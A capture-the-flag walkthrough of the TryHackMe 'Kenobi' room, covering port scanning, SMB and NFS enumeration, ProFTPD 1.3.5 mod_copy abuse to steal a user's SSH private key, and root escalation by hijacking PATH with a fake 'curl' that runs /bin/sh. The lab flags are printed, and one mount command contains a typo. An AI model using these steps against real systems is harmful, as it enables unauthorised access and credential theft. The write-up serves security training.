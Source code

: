 # **THM - Kenobi (EN)**

**Author:** adi7312

## **Task 1 - Checking open ports**


We start scanning ports with command below:

    nmap -sV 10.10.157.59


We conducted scanning of host's services versions, 
it is not required in this task, but it may help us in future for example when we will be looking for exploit for particular version of particular service.


![](p/1.png)


As we can see, there are 7 open ports, now we can answer the first question.


![](p/2.png)


## **Task 2 - Enumerating Samba for shares**

Authors of this task gave us an advice to enumerate a machine for SMB shares. We can do that with provided by author command:

    nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.157.59


![](p/3.png)


We found 3 SMB shares, so we can answer the question.


![](p/4.png)


We can connect to machines network share using below command:

    smbclient //10.10.157.59/anonymous

We can list the files on the share with `ls` command. As a result we can see one file named *log.txt*.


![](p/5.png)

We can answer the next question.


![](p/6.png)


Now we download the *log.txt* file using command (during the task, the vulnerable machine stopped working and I needed to restart it, so now we have different IP address):

    smbget -R smb://10.10.5.253/anonymous

Next we want to read this file, we use command: `cat log.txt`. Now we are looking for an information about open FTP port. *log.txt* file contains also information about Kenobi when he generated his SSH key.


![](p/7.png)


The FTP port is 21, we can answer the next question.


![](p/8.png)



As author suggets, we start enumerationg RPC service (111 port), our objective is to determine the name of enumerated mount, to do this we use command below:

    nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.5.253


![](p/9.png)


As we can see "/var" is the mount that we are looking for, so we can answer the last question in this task


![](p/10.png)


## **Task 3 - Gain initial access with ProFtpd**

Our first task is to determine what is the version of ProFtpd on vulnerable system, we can step back to [first task](#task-1---checking-open-ports) and see that ProFtpd version is: `1.3.5` and this answer for 1st question. 


![](p/11.png)

Now we need to determine the number of exploits for ProFTPd (1.3.5), to do this we can use *searchsploit*.

    searchsploit proftpd

As we can see for 1.3.5 version there 4 exploits. 


![](p/12.png)


![](p/13.png)





Next step is to connect to target machine using the command below (again, IP of target machine had changed):

    nc 10.10.247.173 21


From *log.txt* we know that the service is running as the Kenobi user. So now we will try to copy the Kenobi's private key (from /home to mount /var), to do this, we write following commands:

    SITE CPFR /home/kenobi/.ssh/id_rsa
    SITE CPTO /var/tmp/id_rsa

Now we will try to mount the /var/tmp to our local machine:

    mkdir /mnt/kenobiNFS
    mount 10.10.247.173p:/var/mnt/kenobiNFS
    ls -la /mnt/kenobiNFS


![](p/14.png)


As we can see, we mounted /var successfuly, so now we have access to Kenobi's private key. Let's move to /mnt/kenobiNFS/tmp directory using `cd /mnt/kenobiNFS/tmp` and we will try to connect to target machine using ssh.

    ssh -i id_rsa kenobi@10.10.247.173


![](p/15.png)


Machine has been compromised, now we can read the user's flag.


![](p/16.png)


`Flag: d0b0f3f53b6caa532a83915e19224899`.


![](p/17.png)


## **Task 4- Privilege Escalation with Path Variable Manipulation**

Firstly, we need to check files which have SUID bit. We can do this with this command:

    find / -perm -u=s -type f 2>/dev/null


![](p/18.png)


There is one element that stands out and this is: `/usr/bin/menu` (this also answer to first question in this task). When we run this command we can see 3 intersted options, we can check status, kernel version of OS and network configs.


![](p/19.png)


Answers to first two questions:

![](p/20.png)


We can check what strings the `menu` command contains we can do that with command below:

    strings /usr/bin/menu

![](p/21.png)


Consequently we got some output, if you look at screen above, you can see that `menu` contains strings `curl, uname, ifconfig`. So if menu contains strings like `curl` we can use this to escalate our privileges. Before that we need to do couple things.


Firstly we need to create new `curl` and save `/bin/sh` to it, we can accomplish it with this command:

    echo /bin/sh > curl

Now we need to give it appropriate permissions, use command below:

    chmod 777 curl

Now we need to put its location to our PATH:

    export PATH=/tmp:$PATH

Now we lunch `menu`:

    /usr/bin/menu

We choose options first, write `id` and we got a root! Now we can read the final flag, use `cat /root/root.txt`.

`Final flag: 177b3cd8562289f37382721c28381f02`

![](p/22.png)

